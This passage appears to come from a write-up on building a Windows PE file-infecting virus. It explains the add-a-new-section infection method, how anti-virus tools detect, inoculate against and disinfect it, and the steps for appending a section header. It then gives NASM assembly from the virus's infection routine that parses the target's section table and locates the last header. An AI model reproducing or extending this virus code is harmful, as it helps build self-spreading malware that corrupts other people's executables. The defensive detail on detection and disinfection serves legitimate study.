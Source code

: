 The downsides of this approach relate to anti-virus. Putting it bluntly adding a new section is not subtle. You can identify whether a file is infected or not based on the presence of the new section (in fact that's how I prevent reinfection). You could even "inoculate" files against infection by adding a benign section with the same name as the virus section. Unlike options 1 and 2, this option also changes the infected file's size on disk. Lastly, from an AV perspective it's easy to disinfect infected programs by restoring the original entrypoint and deleting the malicious segment. Since I was mostly unconcerned with AV these downsides were acceptable.

At a high level adding a new section means:

1. Increasing the `NumberOfSections` `WORD` in the `IMAGE_NT_HEADERS`'    `FileHeader`.
1. Finding the end of the `IMAGE_SECTION_HEADERS` array and adding one more    entry.
1. Calculating the correct `VirtualSize`, `SecHdrVirtualAddress`,    `SizeOfRawData` and `PointerToRawData` for the new `IMAGE_SECTION_HEADER`.
1. Setting the correct `SecHdrCharacteristic` flag for the new    `IMAGE_SECTION_HEADER`.

Increasing the `NumberOfSections` is self explanatory. Finding the end of the `IMAGE_SECTION_HEADERS` array requires some math. The start of this array is always immediately after the end of the base PE `IMAGE_NT_HEADERS` structure. I knew where the start of the PE structure is (the `e_lfanew` pointer from the `IMAGE_DOS_HEADER`) and I knew the size of the `IMAGE_NT_HEADERS` structure. That gives me the end of the PE structure and the start of the `IMAGE_SECTION_HEADER` array. I can calculate the offset to the end of the array as the number of sections (`NumberOfSections`) multiplied by the size of each `IMAGE_SECTION_HEADER` structure.

```nasm{numberLines:true}
  ; Copy down how many sections the target PE has
  mov cx, (IMAGE_NT_HEADERS [eax]).FileHeader.NumberOfSections
  movzx ecx, cx
  ; If there are zero sections, something is off, move on
  cmp ecx, 0h
  je findnext
  ; Save the number of sections
  mov [numberOfSections], ecx

  ; Move ahead to the section table
  add eax, size IMAGE_NT_HEADERS

  ; Check that the pointer is still within the file size
  mov ecx, eax
  sub ecx, [targetP]
  cmp ecx, [targetFileSize]
  jge findnext

  ; Check that the last segment specified is within the file size
  mov ecx, [numberOfSections]
  mov edx, size IMAGE_SECTION_HEADER
  imul ecx, edx
  mov ebx, eax
  add ebx, ecx
  sub ebx, [targetP]
  cmp ebx, [targetFileSize]
  jge findnext

  ; Save the location of the first section header
  mov [segHeaders], eax

  ; The last segment header should be at an offset:
  ;   sizeof IMAGE_SECTION_HEADER * numberOfSections - 1
  mov ecx, [numberOfSections]
  dec ecx
  mov edx, size IMAGE_SECTION_HEADER
  imul ecx, edx

  ; Its an RVA from targetP so offset by eax
  mov edx, eax
  add ecx, edx
```